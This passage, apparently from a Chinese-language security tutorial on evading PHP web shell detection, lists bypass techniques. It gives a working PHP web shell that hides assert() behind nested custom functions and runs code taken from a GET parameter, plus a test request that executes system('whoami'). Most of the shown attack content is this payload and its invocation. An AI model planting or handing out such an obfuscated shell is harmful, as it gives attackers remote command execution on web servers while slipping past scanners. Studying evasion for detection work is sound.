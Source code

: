 <img src=".\图片\Snipaste_2023-04-26_12-23-59.png" alt="Snipaste_2023-04-26_12-23-59" style="zoom:80%;" />

## 函数特性

函数特性里面我知道的有：

- 自定义函数绕过
- 变形回调
- 数组
- 可变变量

### 自定义函数

纯自定义函数还是可以绕过的

```php
<?php
function zeo($b){
    return $b;
}
function ass($a){
    return assert($a);
}
function get(){
    return $_GET['x'];
}

function run(){
    return zeo(ass)(zeo(get)());
}

zeo(ass)(zeo(get)());

```

```http
http://127.0.0.1:8081/security/bypass/test03.php?x=system(%22whoami%22)
```

## 回调函数+组合绕过
